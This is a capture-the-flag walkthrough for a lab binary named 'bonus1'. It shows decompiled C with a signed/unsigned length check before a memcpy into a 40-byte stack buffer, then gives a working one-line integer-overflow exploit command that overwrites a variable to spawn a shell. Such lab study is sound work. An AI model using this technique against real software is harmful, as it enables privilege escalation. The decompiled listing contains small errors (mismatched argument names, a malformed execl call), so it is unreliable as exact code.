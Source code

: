 <span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← bonus0](../bonus0/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;">
	[bonus2 →](../bonus2/solution.md)
</span>
</span>

bonus1
======

Dissassembly
------------

The program looks like this:
```c
int	main(int ac, const char **ap)
{
    int		error;
    char	buffer[40];
    int		i;

    i = atoi(av[1]);
    if (i < 10) {
        memcpy(buffer, av[2], (size_t)(i * 4));

        if (i == (int)"FLOW")
            execl("/bin/sh", ["/bin/sh", NULL], NULL);

        error = 0;
    }
    else
        error = 1;

    return error;
}
```

The main function does a signed comparison on the digital value of the second argument, and copies four times as much characters as specified from the first argument into a stack buffer.
A shell is launched if the stack variable i is set to the ascii encoded string `FLOW`.

Exploitation
------------

The buffer is 40 bytes long and the comparison seems to be meant to prevent an overflow. However, since the comparison is signed but treated as unsigned by memcpy, we can use a negative number to pass the first condition and overwrite the variable i.

```sh
./bonus1 "$(bc <<< '11 - (2 ^ 32) / 4')" "$(printf '%.0sA' {1..40})FLOW" <<< whoami
```
```
bonus2
```
